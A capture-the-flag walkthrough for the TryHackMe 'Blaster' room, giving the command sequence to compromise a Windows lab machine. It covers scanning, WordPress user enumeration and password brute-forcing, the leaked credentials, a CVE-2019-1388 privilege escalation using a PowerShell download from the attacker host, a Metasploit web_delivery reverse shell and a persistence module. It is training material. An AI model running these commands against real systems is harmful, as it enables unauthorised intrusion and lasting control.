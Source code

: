 # Blaster

**Room Link:** [https://tryhackme.com/room/blaster](https://tryhackme.com/room/blaster)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

port 5985 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/retro -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
wpscan --url http://$VICTIM/retro
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wpscan --url http://$VICTIM/retro --enumerate u
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wpscan --url http://$VICTIM/retro  --passwords /usr/share/wordlists/rockyou.txt
```



## Shell

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





```
Username: wade
Password: parzival
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### TCP/3389 - RDP

**Kali**

```
xfreerdp +clipboard /u:"wade" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: parzival
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**exploit:** [https://sotharo-meas.medium.com/cve-2019-1388-windows-privilege-escalation-through-uac-22693fa23f5f](https://sotharo-meas.medium.com/cve-2019-1388-windows-privilege-escalation-through-uac-22693fa23f5f)

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/suprise4u/CVE-2019-1388.git
cd CVE-2019-1388/
python2 -m SimpleHTTPServer 81
```

**Victim(powershell)**

```
powershell -ep bypass
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$KALI:81/HHUPD.EXE','HHUPD.EXE')" 
```



<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

## Metasploit

**Kali**

```
msfconsole
use exploit/multi/script/web_delivery
show targets
set target 2
set LHOST 10.10.75.198
set srvport 8082
set payload windows/meterpreter/reverse_http
run -j
```



Copy powershell command to a the victim in a powershell prompt. Make sure its from a privileged user.

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

We can run the following to keep persistance after reboot

**Kali(msfconsole)**

```
run exploit/windows/local/persistence -X
```



